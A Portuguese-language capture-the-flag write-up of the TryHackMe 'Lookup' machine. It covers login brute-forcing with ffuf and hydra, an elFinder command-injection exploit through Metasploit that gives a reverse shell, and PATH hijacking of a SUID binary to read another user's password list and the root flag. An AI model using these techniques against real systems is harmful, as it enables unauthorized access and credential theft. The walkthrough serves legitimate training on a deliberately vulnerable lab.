




> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [Lookup](https://tryhackme.com/room/lookup)

<a href="https://tryhackme.com/room/lookup"><figure></figure></a>

> Test your enumeration skills on this boot-to-root machine.

Capture The Flag original disponível em [Try Hack Me](https://tryhackme.com/room/lookup), feito por [tryhackme](https://tryhackme.com/p/tryhackme) e [josemlwdf](https://tryhackme.com/p/josemlwdf).

Dificuldade: `Fácil`

Resolvido em: `2026/05/10`

# Conteúdos

- [Lookup](#lookup)
- [Conteúdos](#conteúdos)
- [Writeup](#writeup)
   * [Reconhecimento](#reconhecimento)
   * [Exploração](#exploração)
   * [Escalação de Privilégios](#escalação-de-privilégios)

# Writeup

## Reconhecimento

Seguindo os padrões de reconhecimento, primeiro chequei se o IP disponibilizado realmente estava funcionando:

```bash
$ ping -c 3 <MACHINE_IP>
PING <MACHINE_IP> (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from <MACHINE_IP>: icmp_seq=1 ttl=62 time=141 ms
64 bytes from <MACHINE_IP>: icmp_seq=2 ttl=62 time=140 ms
64 bytes from <MACHINE_IP>: icmp_seq=3 ttl=62 time=140 ms

--- <MACHINE_IP> ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 139.688/140.034/140.636/0.426 ms
```

E enfim realizei um `nmap`[^nmap] para encontrar as portas disponíveis.

```bash
$ nmap -T4 <MACHINE_IP>
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-10 16:44 UTC
Nmap scan report for <MACHINE_IP>
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.33 seconds
```

Tenho um `ssh:22` e `http:80`. Bem, checando o website...

<figure></figure>

Por algum motivo o browser alterou o link para `lookup.thm`, mas tal não está no DNS. Então tive de adicionar `lookup.thm` no DNS local `/etc/hosts`:

```
/etc/hosts
<MACHINE_IP>   lookup.thm
```

E deu tudo certo.

<figure></figure>

Revelando uma página de login. A qual eu não tenho credenciais. Nem tenho para o `ssh`! Então decidi procurar mais fundo `gobuster`[^gobuster]:

```bash
$ gobuster dir -u http://lookup.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lookup.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 719]
/login.php            (Status: 200) [Size: 1]
```

E nenhum desses links são úteis. `/index.php` é a página inicial, e `/login.php` a página redirecionada após o login. Tentei buscar por exploits em Apache 2.4.41 (informação revelada com um `nmap` profundo) mas nenhum era aplicável. Então decidi tentar um ataque de força bruta...

Usando `ffuf`[^ffuf], uma [wordlist de usernames](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames-dup.txt), e a senha `password`, tentei, com poucas esperanças, ver se o desenvolvedor sem querer permitiu que o sistema fosse vulnerável.

```bash
$ ffuf -w xato-net-10-million-usernames-dup.txt -X POST -u http://lookup.thm/login.php -d "username=FUZZ&password=password" -H "Content-Type: application/x-www-form-urlencoded"
```

Deixei rodar por um tempo, e parece que a resposta padrão tinha tamanho `74`, então filtrei com `-fs 74` e rodei o comando novamente:

```bash
$ ffuf -w xato-net-10-million-usernames-dup.txt -X POST -u http://lookup.thm/login.php -d "username=FUZZ&password=password" -H "Content-Type: application/x-www-form-urlencoded" -fs 74

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: xato-net-10-million-usernames-dup.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=password
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 74
________________________________________________

jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 141ms]
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 2853ms]
```

Dois usuários tiveram respostas diferentes! `admin` e `jose`. Seguindo, então, decidi aplicar o mesmo processo de força-bruta, apenas agora na senha usando o usuário `admin`. A lista de senhas é rockyou[^rockyou].

```bash
$ ffuf -w /usr/share/wordlists/rockyou.txt -X POST -u http://lookup.thm/login.php -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded"
```

Desta vez, o tamanho padrão era `62`, então após filtrá-lo com `-fs 62` obtive:

```bash
$ ffuf -w /usr/share/wordlists/rockyou.txt -X POST -u http://lookup.thm/login.php -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fs 62 -s
<A_PASS>
```

Ótimo, uma senha! Agora, com o usuário `admin` e senha `<A_PASS>`...

<figure></figure>

Estranho. A combinação não foi aceita. Eu sei que não tem motivo lógico, mas tentei essa mesma senha com o usuário `jose`.

## Exploração

O login funcionou, mas tive de adicionar o subdomínio `files.lookup.thm` em `/etc/hosts`. De qualquer forma, o acesso levou-me a uma página de arquivos. 

<figure></figure>

Todos os arquivos eram palavras aleatórias, sem contexto, exceto dois.

```
thislogin.txt
jose : <A_PASS>
```

```
credentials.txt
think : nopassword
```

Eu tentei usar as credenciais disponíveis em `credentials.txt` para fazer o login no `ssh`, mas não eram válidas. Eu até compilei todas as palavras disponíveis aqui para um arquivo só, e tentei fazer força bruta usando tanto como usuário quanto senha. Mas não funcionou.

Procurei por exploits, então.

```bash
$ searchsploit elfinder
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
elFinder 2 - Remote Command Execution (via File Creation)            | php/webapps/36925.py
elFinder 2.1.47 - 'PHP connector' Command Injection                  | php/webapps/46481.py
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Meta | php/remote/46539.rb
elFinder Web file manager Version - 2.1.53 Remote Command Execution  | php/webapps/51864.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Já que a versão do `elfinder` era `2.1.47`, batendo exatamente com o exploit `PHP Connector` (`46481`), decidi tentar usá-lo. Já que também estava disponível no `metasploit`,[^ms] configurei por lá. As únicas configurações relevantes eram `rhosts` para o IP da máquina e `lhost` para o IP do meu computador.

Após realizar o exploit, fui agraciado com um reverse shell[^rv], e logo busquei por arquivos que poderiam ser úteis. Encontrei um arquivo SQL...

```bash
meterpreter > pwd
/var/www/files.lookup.thm/public_html/elFinder/php
meterpreter > download MySQLStorage.sql
[*] Downloading: MySQLStorage.sql -> /home/kali/MySQLStorage.sql
[*] Downloaded 1.14 KiB of 1.14 KiB (100.0%): MySQLStorage.sql -> /home/kali/MySQLStorage.sql
[*] Completed  : MySQLStorage.sql -> /home/kali/MySQLStorage.sql
```

Mas não havia nenhuma informação nele. Eu tentei escalar para um terminal próprio fazendo upload de um revshell diretamente na pasta do `elfinder`, mas o sistema deleta arquivos `.php` antes mesmo de executá-los.

Em seguida, tentei executar `sudo -l`. Pediu senha. 

Como a última esperança, procurei por arquivos com permissão SUID do root. Dentre eles, um comando misterioso se destacou:

```bash
$ find / -perm -4000 2>/dev/null; echo "finished"
...
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pwm
/usr/bin/at
/usr/bin/fusermount
/usr/bin/gpasswd
...
```

O `/usr/sbin/pwm` não é um comando normal. Executando ele...

```bash
$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Ele roda outro comando, `id`. Existe uma chance não nula que o comando é executado com caminho relativo, permitindo PATH hijacking. Já fui ao trabalho. 

```bash
$ cd /tmp
$ touch id
$ chmod +x id
$ echo "#!/bin/bash\nsudo sh" > id
$ cat id
#!/bin/bash
sudo sh
$ export PATH=/tmp:$PATH
$ which id
/tmp/id
```

Infelizmente apenas carregar um terminal como root não funcionou. Então segui com a próxima ideia.

```bash
$ /usr/bin/id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

O comando `id` retorna os valores relacionados com o usuário, então só preciso disfarçar minha sessão como root. Tentando tal:

```bash
$ echo "#!/bin/bash\necho \"uid=0(root)  gid=0(root) groups=0(root)\"" > id

$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: root
[-] File /home/root/.passwords not found
```

Novamente não funcionou, desta vez apenas porque o script também busca por um arquivo `/home/user/.passwords`. Rapidamente, ainda dentro desse escopo, é fácil de verificar quem tem essa pasta:

```bash
$ ls -la /home/think
total 40
drwxr-xr-x 5 think think 4096 Jan 11  2024 .
drwxr-xr-x 5 root  root  4096 May 10 21:39 ..
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache
drwx------ 3 think think 4096 Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt
```

> Por sinal, esse `user.txt` é a flag de usuário, mas não tenho acesso suficiente ainda para lê-la.

Enfim, rodar `pwm` leva a um grupo grande de senhas:

```bash
$ echo "#!/bin/bash\necho \"uid=1000(think) gid=1000(think) groups=1000(think)\"" > id
$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
...
jose.9298
jose.2856171
```

Todas são do formato `jose` seguido de alguma combinação aleatória de números, caracteres especiais, palavras... Agora, com um grupo próprio de senhas, pude tentar realizar um ataque de força-bruta no `ssh` com `hydra`[^hydra] e esse grupo de senhas:

```bash
$ hydra -l think -P ~/Desktop/josewl.txt ssh://lookup.thm
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-10 23:07:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: <T_PASS>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-10 23:07:45
```

Obtendo acesso como o usuário `think` usando a senha `<T_PASS>`.

```bash
think@<MACHINE_IP>:~$ whoami
think
```

## Escalação de Privilégios

Daqui o processo é simples. Primeiro, com esse novo privilégio, eu adiquiri a flag de usuário:

```bash
think@<MACHINE_IP>:~$ pwd
/home/think
think@<MACHINE_IP>:~$ cat user.txt
<FLAG_USER>
```

E segui com o uso de `sudo -l` para verificar possibilidades de escalação para root.

```bash
think@<MACHINE_IP>:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on <MACHINE_IP>:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on <MACHINE_IP>:
    (ALL) /usr/bin/look
```

Nem precisarei. Nesse caso, com `/usr/bin/look` eu tenho leitura a todo arquivo do sistema, então posso fazer o seguinte:

```bash
think@<MACHINE_IP>:~$ sudo look "" /root/root.txt
<FLAG_ROOT>
```

E obter a flag de root sem escalar os privilégios.

[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^srchspl]: https://www.exploit-db.com/searchsploit
[^ms]: https://www.metasploit.com/
[^rv]: https://en.wikipedia.org/wiki/Shell_shoveling
[^rockyou]: https://weakpass.com/wordlists/rockyou.txt
[^hydra]: https://github.com/vanhauser-thc/thc-hydra
[^ffuf]: https://github.com/ffuf/ffuf